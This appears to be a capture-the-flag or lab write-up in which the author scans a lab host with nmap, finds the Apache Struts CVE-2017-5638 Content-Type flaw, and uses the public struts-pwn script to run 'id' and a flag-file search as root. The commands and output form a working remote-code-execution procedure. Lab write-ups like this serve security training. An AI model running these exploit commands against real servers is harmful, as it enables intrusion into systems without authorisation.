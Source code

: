 ```js
|       Apache Struts 2.3.5 - Struts 2.3.31 and Apache Struts 2.5 - Struts 2.5.10 are vulnerable to a Remote Code Execution
|       vulnerability via the Content-Type header.
|           
|     Disclosure date: 2017-03-07
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638
|       https://cwiki.apache.org/confluence/display/WW/S2-045
|_      http://blog.talosintelligence.com/2017/03/apache-0-day-exploited.html

Nmap done: 1 IP address (1 host up) scanned in 13.32 seconds
```

Here we can see, the application is vulnerable.

## Exploitation

For the exploitation part, I will be using this script [https://github.com/mazen160/struts-pwn](https://github.com/mazen160/struts-pwn) 

On this script it added a Content type header that will open the `cmd` and we can give a command to find something interesting.

```js
┌──(root㉿kali)-[/home/…/Desktop/internship/oxygen/struts-pwn]
└─# python struts-pwn.py --url 'http://192.168.8.114:8080/showcase.action' -c 'id'

[*] URL: http://192.168.8.114:8080/showcase.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

uid=0(root) gid=0(root) groups=0(root)

[%] Done.
```

We can see here, directly the `id` is `root`. So it will be easy for us to find the flag because there is no need to do the reverse shell and escalate to the root. 

```js
┌──(root㉿kali)-[/home/…/Desktop/internship/oxygen/struts-pwn]
└─# python struts-pwn.py --url 'http://192.168.8.114:8080/showcase.action' -c 'find / -name "flag.txt" 2>/dev/null'

[*] URL: http://192.168.8.114:8080/showcase.action
[*] CMD: find / -name "flag.txt" 2>/dev/null
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

/var/secret/flag.txt

[%] Done.
```
